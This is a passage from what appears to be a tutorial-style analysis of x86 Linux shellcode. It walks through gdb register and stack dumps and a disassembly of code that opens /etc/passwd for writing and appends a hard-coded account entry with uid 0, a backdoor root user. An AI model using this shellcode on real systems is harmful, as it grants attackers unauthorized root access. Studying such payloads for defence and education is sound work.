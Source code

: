 The final SYSCALL is something like this:
```
open("/etc/passwd", O_WRONLY | O_NOCTTY); 
``` 
If the SYSCALL succeeds, the file descriptor should be returned in EAX.
``` 
[----------------------------------registers-----------------------]
EAX: 0x7 
EBX: 0xbffff6dc ("/etc//passwd")
ECX: 0x401 
EDX: 0x0 
ESI: 0x0 
EDI: 0x804a069 --> 0x786f0000 ('')
EBP: 0xbffff728 --> 0x0 
ESP: 0xbffff6dc ("/etc//passwd")
EIP: 0x804a065 --> 0x25e893
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------]
   0x804a060 <shellcode+32>: inc    ecx
   0x804a061 <shellcode+33>: mov    ch,0x4
   0x804a063 <shellcode+35>: int    0x80
=> 0x804a065 <shellcode+37>: xchg   ebx,eax
   0x804a066 <shellcode+38>: call   0x804a090 <shellcode+80>
   0x804a06b <shellcode+43>: outs   dx,DWORD PTR ds:[esi]
   0x804a06c <shellcode+44>: js     0x804a0d2
   0x804a06e <shellcode+46>: imul   esi,DWORD PTR [eax+0x73],0x7a413a79
[------------------------------------stack-------------------------]
0000| 0xbffff6dc ("/etc//passwd")
0004| 0xbffff6e0 ("//passwd")
0008| 0xbffff6e4 ("sswd")
0012| 0xbffff6e8 --> 0x0 
0016| 0xbffff6ec --> 0x8048430 (<main+76>: mov    edi,DWORD PTR [ebp-0x4])
0020| 0xbffff6f0 --> 0x8048510 ("Shellcode Length:  %d\n")
0024| 0xbffff6f4 --> 0x28 ('(')
0028| 0xbffff6f8 --> 0x8049ff4 --> 0x8049f28 --> 0x1 
[------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804a065 in shellcode ()
``` 

# Analyzing SYS-CALLS (MOV AL, 0x4)
After setting up the appropriate privileges for the process to edit the file, and opening /etc/passwd, it is the time to finally add the user ╰(*°▽°*)╯. The following block shows the instructions to be explained in this section.
```
00000025  93                xchg eax,ebx
00000026  E825000000        call dword 0x50
0000002B  6F                outsd
0000002C  7864              js 0x92
0000002E  697073793A417A    imul esi,[eax+0x73],dword 0x7a413a79
00000035  324D6E            xor cl,[ebp+0x6e]
00000038  52                push edx
00000039  7037              jo 0x72
0000003B  6F                outsd
0000003C  784B              js 0x89
0000003E  58                pop eax
0000003F  51                push ecx
00000040  3A30              cmp dh,[eax]
00000042  3A30              cmp dh,[eax]
00000044  3A3A              cmp bh,[edx]
00000046  2F                das
00000047  3A2F              cmp ch,[edi]
00000049  62696E            bound ebp,[ecx+0x6e]
```